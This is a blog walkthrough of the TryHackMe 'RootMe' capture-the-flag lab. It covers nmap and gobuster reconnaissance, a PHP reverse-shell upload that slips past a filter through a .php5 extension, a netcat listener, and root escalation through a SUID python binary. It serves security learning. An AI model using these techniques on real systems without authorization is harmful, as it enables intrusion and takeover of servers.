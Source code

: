 +++
title = 'Root Me - CTF'
date = 2021-02-12
draft = false
url = "/blog/"
tags = ["writeup","CTF"]
+++

# Try Hack Me - RootMe
A ctf for beginners, can you root me?
<br>
---
## Reconnaissance
1. Scan the machine, how many ports are open?
	Here is the nmap scann commands that I am going to be using.
	```
	nmap -sC -sV -T4 -A -oN nmap/result <IP>
	```
	Breakdown:
	```
	-A: do an extensive scan on these ports

	-sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

	-oN: Normal output to the file normal.file
	```
2. What version of Apache is running?
		Let's review out nmap scans and see if we are able to find what version of Apache we are running.
	```
	Host is up (0.14s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: HackIT - Home
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

3. What service is running on port 22?
	If you review the resutls fo the nmap scan you will see that there is a service running on port 22.
 4. Find directories on the web server using the GoBuster tool.
 	We are going to run the following gobuster command to search for the hidden directory that they want us to find.
	 ```
	 gobuster dir -t 40 -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	 ```
	 Breakdown:
	 ```
	-u: Full URL (including scheme), or base domain name.

	-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

	-w: Path to the wordlist used for brute forcing (use – for stdin)
	```

 5. What is the hidden directory?
	 Do any of these directiores stand out!
	 ```
	 ===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://<IP>/
	[+] Threads:        40
	[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2021/02/11 19:14:32 Starting gobuster
	===============================================================
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	Progress: 23943 / 220561 (10.86%)^C
	[!] Keyboard interrupt detected, terminating.
	===============================================================
	2021/02/11 19:15:44 Finished
	===============================================================

	 ```
---
## Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.
	In out last question we found a hidden directory.
	Let's open up our browser and got the following `http:\\<IP>\uploads`
{{< figure src="/img/rootme/1.png" width="200">}}
	Now lets try and upload a php reverse shell.  
	[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a great resourse for us to use.
	Now that we have our reverse shell let's add the ip address of our device into it and pick out a port we want to listen in on.
	Ok, lets try and upload our reverse shell... It looks like are now able to upload our file.
{{< figure src="/img/rootme/2.png" width="200">}}
	How about we change the extention from PHP to PHP5 and then try again.
	How about them apples, it uploaded. 
	Before we try and excute our payload lets set up a netcat listener.
	`nc -nlvp <port#>`
	Once our listener has been set up lets pull the trigger on our reverse shell and see if a connection can be made.
{{< figure src="/img/rootme/3.png" width="200">}}
BOOM!! We have a connection.
The next thing we need to do is find the user.txt file.
I tried looking in all the stander places like the current user directory and in the home directory but I did not have any luck.
So I decided to use the find command `find / -type f -name user.txt 2> /dev/null`
With this command I was able to locate where our user.txt file is. 
Now all we need to do is cat out the content of our user.txt file and we will have our flag.  

Breakdown:
```
* -type f – you are telling find to look exclusively for files
* -name user.txt – instructing the find command to search for a file with the name “user.txt”
* 2> /dev/null – so error messages do not show up as part of the search result 
```


## Privilege escalation
---
1. Search for files with SUID permission, which file is weird?
	Again here we are going to be using the `find` command to help us locate our file with a weird SUID permission.
```
find / -type f -user root -perm -u=s 2> /dev/null_**
```
Now how can use leverage this what we have found to escalate out privileges to a root shell.
[GTFO Bins](https://gtfobins.github.io/gtfobins/python/#suid) is another great resourse that we can use. 
Let's head over there and look up the SUID for python.
It seems that we are that we are able to use the code below to gain a root shell.
````
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````
2. root.txt
	One we have verified that we are actually running as root we will just need to cat out the content of out root.txt file.
`cat /root/root.txt`

# Congratulations you have just completed the RootMe challenge from TryHackMe!
